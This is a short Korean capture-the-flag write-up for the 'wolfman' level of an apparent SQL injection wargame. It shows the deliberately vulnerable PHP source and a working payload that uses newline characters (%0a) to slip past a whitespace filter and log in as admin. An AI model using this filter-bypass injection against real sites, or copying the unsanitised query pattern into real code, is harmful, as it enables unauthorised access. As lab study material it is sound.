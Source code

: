 # WOLFMEN

## code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보면 id=guest로 고정이되어 있고 pw는 get으로 받고 있다. 그리고  pw에서 스페이스바가 막혀있으므로 url 뒤에 
```
?pw='%0aor%0a1=1%0aand%0aid='admin'%23
```
이렇게 입력을 하게 되면 id는 and를 함으로서 admin을 넣고 그 참인 값과 pw를 or해서 참을 만들었다. 그리하여서 pw값은 참이 되고 id는 admin이 들어가서 문제가 풀리게된다. (스페이스바가 막혔기 때문에 %0a를 사용하는데 %0a는 개행이다.)

------------